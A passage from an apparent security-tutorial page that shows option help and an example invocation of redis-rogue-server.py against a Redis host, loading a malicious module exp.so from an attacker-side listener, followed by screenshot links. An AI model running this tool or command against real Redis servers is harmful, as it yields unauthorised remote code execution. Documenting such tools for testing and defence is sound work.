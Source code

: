 ```shell
  --exp=EXP_FILE       Redis Module to load, default exp.so
  -v, --verbose        Show full data stream
Example
```



```shell
python3 redis-rogue-server.py --rhost 192.168.51.146 --lhost 192.168.51.146 --exp=exp.so
```



![img](../../../.vuepress/public/img/1628608226504-a9981cc4-1dae-4c85-9468-39bd3f030305-20220415143203642.png)

![img](../../../.vuepress/public/img/1628608233667-192fed23-55a2-43a8-88df-75cc7d9d0b9b-20220415143203584.png)
